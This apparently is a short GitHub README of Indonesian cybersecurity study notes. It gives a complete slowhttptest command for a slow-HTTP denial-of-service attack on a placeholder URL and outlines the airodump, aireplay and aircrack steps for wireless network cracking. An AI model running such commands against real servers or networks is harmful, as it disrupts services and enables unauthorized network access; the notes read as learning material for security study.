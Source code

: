# materi-cybersec
## DoS => cara serang bisa menggunakan slowhttptest
  - sudo slowhttptest -c 10000 -B -i 110 -r 200 -s 8192 -t FAKEVERB -u [url] -x 10 -p 3

## Wireless Network Hacking
  - Hardware jenis atheros ( TP Link WN722N v1)
  - Tools Aircrack, ada 3 tahap (airodump -> aireplay -> aircrack)
  - 


